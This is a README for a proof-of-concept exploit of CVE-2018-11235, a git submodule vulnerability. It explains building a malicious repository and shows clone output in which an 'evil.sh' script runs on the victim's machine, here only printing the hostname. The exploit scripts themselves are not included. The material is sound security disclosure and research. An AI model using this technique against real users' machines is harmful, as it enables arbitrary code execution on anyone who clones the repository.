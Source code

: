 Exploit for CVE-2018-11235
==============================

GitHub is not allowing me to push a repository exploiting the vulnerability
(good point for them), so you will have to build it yourself by running the
[build.sh](build.sh) script.

Then, push the repository somewhere. When you clone it with the
`--recurse-submodules` flag, the [evil script](evil.sh) is executed:

```
$ git clone --recurse-submodules repo dest_dir
Cloning into 'dest_dir'...
done.
Submodule 'Spoon-Knife' (https://github.com/octocat/Spoon-Knife) registered for path 'Spoon-Knife'
Submodule '../../modules/evil' (https://github.com/octocat/Spoon-Knife) registered for path 'evil'
Cloning into '/snip/dest_dir/Spoon-Knife'...
Submodule path 'Spoon-Knife': checked out 'd0dd1f61b33d64e29d8bc1372a94ef6a2fee76a9'

Here is your hostname: snip

Submodule path 'evil': checked out 'd0dd1f61b33d64e29d8bc1372a94ef6a2fee76a9'
```


Acknowledgements
----------------

Code derived from [@peff](https://github.com/peff)'s [git patch][] (look for
the `t/t7415-submodule-names.sh` test file).

As such, this repository is published under the GNU General Public License
version 2.

Additional fix for older versions of git courtesy of
[@atorralba](https://github.com/atorralba)
([details in this post](https://atorralba.github.io/CVE-2018-11235/)).

[git patch]: https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44
=======
# clone_and_pwn
Exploits CVE-2018-11235
